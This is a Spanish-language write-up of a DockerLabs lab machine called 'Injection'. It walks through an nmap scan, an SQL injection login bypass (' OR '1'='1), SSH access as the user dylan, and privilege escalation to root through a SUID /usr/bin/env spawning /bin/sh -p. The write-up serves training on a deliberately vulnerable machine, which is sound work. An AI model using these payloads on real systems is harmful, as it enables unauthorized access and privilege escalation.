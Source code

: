```yaml
---
title: Injection - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/injection/injection.png" alt="Captura de pantalla de la máquina Injection en DockerLabs">

Hoy trataremos de explotar la máquina *Injection* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a utilizar un payload de inyección SQL para evadir la autenticación del login.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh injection.tar
[sudo] contraseña para nmc:     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla

```



## Escaneo NMAP
Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 22:36 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```



Nos percatamos de que está abierto el puerto 22 con el servicio SSH y el puerto 80 con el servicio HTTP. Entramos a la web con el puerto 80: <mark>http://172.17.0.2:80</mark> y nos carga un formulario de login.

<img src="/assets/img/DLabs/injection/login-injection.png" alt="Captura de pantalla del login de la máquina Injection en DockerLabs">

## Payload

Intentamos entrar con las siguientes credenciales:
User:<mark>' OR '1'='1</mark>
Password:<mark>' OR '1'='1</mark>

<img src="/assets/img/DLabs/injection/credentials-injection.png" alt="Captura de pantalla de las credenciales de la máquina Injection en DockerLabs">

Este payload funciona porque modifica la consulta SQL del backend para que siempre sea verdadera:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```



Como <mark>'1'='1'</mark> siempre es cierto, se omite la verificación real.

## SSH 

Tras acceder al sistema, notamos que el nombre del usuario es dylan, visible en la interfaz web. Intentamos la conexión mediante SSH con esas credenciales:

```bash
➤ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

dylan@1eae96493101:~$
```



## Escalada de privilegios

Buscamos archivos con el bit **SUID** activado:

```bash
dylan@1eae96493101:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
dylan@1eae96493101:~$ 
```



El binario <mark>/usr/bin/env</mark> tiene el bit SUID activado, lo que permite ejecutarlo con privilegios de root. Lo aprovechamos para escalar privilegios con el siguiente comando y tambien probamos *whoami*:


```bash
dylan@1eae96493101:~$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
